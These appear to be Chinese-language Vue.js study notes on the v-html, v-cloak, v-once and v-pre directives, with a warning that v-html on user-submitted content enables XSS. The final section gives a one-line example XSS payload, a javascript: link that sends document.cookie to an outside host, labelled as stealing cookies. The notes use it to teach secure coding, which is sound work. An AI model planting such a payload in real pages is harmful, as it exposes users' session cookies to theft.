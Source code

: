     - `v-html` 会替换掉节点中所有的内容，`{{xx}}`则不会。
    - `v-html `可以识别 html 结构。 3.
  - 严重注意: `v-html` 有安全性问题!!!! - 在网站上动态渲染任意 HTML 是非常危险的,容易导致 XSS 攻击。 - 一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上!
- `v-cloak` 指令（没有值）:

  - 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用:

  ```html
  <style>
    [v-cloak] {
      display: none;
    }
  </style>
  ```

  - 配合 `v-cloak `可以解决网速慢时页面展示出{{xxx}}的问题。

- `v-once`指令:

  - `v-once`所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能。

- `v-pre`指令:

  - 跳过其所在节点的编译过程。
  - 可利用它跳过:没有使用指令语法、没有使用插值语法的节点，会加快编译。

  #### v-html cookie 安全问题

  `<a href=javascript:location.href="http://www.baidu.com?" +dotument.cookie>点击偷走cookie</a> `
  ![alt](./images/13.png)
